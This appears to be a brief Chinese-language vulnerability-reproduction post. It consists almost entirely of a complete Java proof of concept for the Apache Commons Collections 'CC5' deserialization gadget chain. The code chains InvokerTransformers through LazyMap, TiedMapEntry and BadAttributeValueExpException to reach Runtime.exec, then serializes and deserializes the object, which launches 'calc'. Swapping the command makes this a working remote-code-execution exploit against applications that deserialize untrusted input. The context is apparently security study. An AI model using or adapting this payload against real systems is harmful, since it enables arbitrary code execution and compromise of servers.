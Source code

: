 # 漏洞复现

完整的poc刚才已经贴出来了

```
package CC5;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CC5payload {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };

        ChainedTransformer chain = new ChainedTransformer(transformers);

        Map innermap = new HashMap();
        Map outmap = LazyMap.decorate(innermap,chain);

        TiedMapEntry tiedMap = new TiedMapEntry(outmap,"DawnT0wn");
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(1);
        Field field = BadAttributeValueExpException.class.getDeclaredField("val");
        field.setAccessible(true);
        field.set(badAttributeValueExpException,tiedMap);

        ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("CC5.bin"));
        os.writeObject(badAttributeValueExpException);

        ObjectInputStream fos = new ObjectInputStream(new FileInputStream("CC5.bin"));
        fos.readObject();
    }
}
```
